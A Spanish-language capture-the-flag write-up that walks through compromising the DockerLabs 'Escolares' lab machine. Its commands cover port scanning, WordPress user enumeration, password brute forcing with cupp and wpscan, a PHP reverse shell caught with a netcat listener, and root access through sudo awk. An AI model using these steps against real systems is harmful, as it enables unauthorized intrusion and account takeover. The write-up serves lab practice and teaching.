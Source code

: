 ```yaml
---
title: Escolares - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/7f83b9e1-1efc-47e7-8ce5-c23e2b3e5bce)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/1c698515-45c1-423a-b81b-9a9a0526ba60)

# Exploración Web

Al acceder a la página web, observamos una pagina sobre una *Universidad de Ciberseguridad*.

![image](https://github.com/user-attachments/assets/c1f9320f-5e28-45fe-98bd-25c2a803932c)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Al analizar el código fuente de la página, encontramos una ruta hacia `profesores.html`, donde descubrimos que `luisillo` es el administrador de la instalación de WordPress.

![image](https://github.com/user-attachments/assets/f8a22e16-6c9d-4326-a1fc-133004368103)

# WordPress

Exploramos el directorio `wordpress` y observamos que necesitamos ajustar el archivo `/etc/hosts` para que el dominio `escolares.dl` funcione correctamente.
Añadimos lo siguiente a /etc/hosts:

![image](https://github.com/user-attachments/assets/6a175fca-b27a-4865-b269-c7235cc26717)

![image](https://github.com/user-attachments/assets/01d0e3c2-59a4-45c6-9a44-830b093601c1)

```txt
172.17.0.2 escolares.dl
```
![image](https://github.com/user-attachments/assets/26d3c04e-4e2c-4aca-af76-f1dd69938f43)

Repetimos el escaneo de directorios en `wordpress`:
```bash
gobuster dir -u escolares.dl/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img 
```
![image](https://github.com/user-attachments/assets/78af7eab-189b-4cbb-a863-f28a2c2867f6)

Identificamos al usuario *luisillo* como administrador. Procedemos con un ataque de fuerza bruta para descubrir su contraseña.

```bash
wpscan --url http://escolares.dl/wordpress -e u,cb,vp,vt
```
Encontramos el usuario que vimos en la ruta de antes de `profesores.html`, por lo que con se ve es un usuario en potencia para probar fuerza bruta.

![image](https://github.com/user-attachments/assets/21a0a639-5334-44e9-9463-f9a831e3f157)

##Fuerza bruta usuario "luisillo".

Creamos un diccionario de contraseñas utilizando cupp:

```bash
cupp -i 
```

![image](https://github.com/user-attachments/assets/2be2ec8e-6ba4-4e1c-9f98-70fcac195447)

Ejecutamos el ataque de fuerza bruta con `wpscan`:

```bash
wpscan --url http://escolares.dl/wordpress/ -U luisillo -P luisillo.txt
```

![image](https://github.com/user-attachments/assets/88dc4f7d-c65d-4f7b-bd9a-5d8727a477d7)

Obtenemos la contraseña de *luisillo* y accedemos al panel de administración de WordPress.

![image](https://github.com/user-attachments/assets/db6e7552-df85-455c-b8b9-19222b622268)


## Reverse Shell

Dentro del panel de administración, utilizamos un plugin que permite acceder a los archivos del servidor web. Subimos una reverse shell creada con *Pentest Monkey*:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Nos ponemos a la escucha con `netcat`:

```bash 
nc -lvnp 4444
```

![image](https://github.com/user-attachments/assets/58b7b91a-e2a4-47f5-86e8-b15b8c8d2f26)

Accedemos a la URL donde subimos la reverse shell y establecemos la conexión. Verificamos que estamos ejecutando comandos como el usuario `www-data`.

![image](https://github.com/user-attachments/assets/93cb0367-a3de-4317-ba45-68e930f37faf)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```
# Escalada de Privilegios

Explorando el sistema, encontramos un archivo `secret.txt` en el directorio de *luisillo*. Este archivo contiene la contraseña de su cuenta.

![image](https://github.com/user-attachments/assets/dfeea024-eb46-4065-ba33-66cf01994575)

```bash
su luisillo
```

![image](https://github.com/user-attachments/assets/ec926bf5-ed7f-4694-9110-0c48f288a5c6)

Al ejecutar `sudo -l`, vemos que podemos ejecutar `awk` como `root`. Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
![image](https://github.com/user-attachments/assets/45826585-e997-46e3-9e36-246a50587dc5)

Ya seriamos root.


